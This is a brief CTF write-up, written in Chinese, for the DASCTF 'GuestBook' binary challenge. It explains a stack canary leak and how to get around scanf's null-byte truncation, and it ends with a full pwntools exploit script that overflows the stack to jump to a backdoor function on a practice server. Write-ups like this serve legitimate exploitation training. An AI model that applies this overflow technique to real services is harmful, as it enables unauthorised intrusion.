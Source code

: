 ```yaml
---
title: DASCTF月赛 - GuestBook
date: 2023/12/3 12:00:00
tags:
    - noob
---
```


From CBCTF x DASCTF

## 文件分析

下载`GuestBook`, NX on, PIE off, Canary on, RELRO partial  
ghidra分析为64位程序

## 解题思路

name上就是canary，首先填满name使得canary值泄露；  
还要注意输入时使用的是scanf，虽然可以栈溢出，但是遇到空字符会截断，
需要多次溢出，实现跳转到`magic`后门函数

## EXPLOIT

```python
from pwn import *
sh = remote('node4.buuoj.cn', 27847)

# payload 1, leak canary
sh.sendline(b'0'*23 + b'.')

sh.recvuntil(b'.\n') # skip
canary = u64(b'\0' + sh.recvuntil(b'!')[:7])
magicAddr = 0x4012c3

# payload 2, scanf 3 times to return to magic
sh.sendline(b'3')
sh.sendline(b'0'*0xa8 + p64(magicAddr)) # call magic, keep rsp balance
sh.sendline(b'0'*0x79 + p64(canary)[1:]) # fill canary except for the first 0x00
sh.sendline(b'0'*0x58) # fill canary 1st byte with 0x00

sh.interactive()
```

Done.
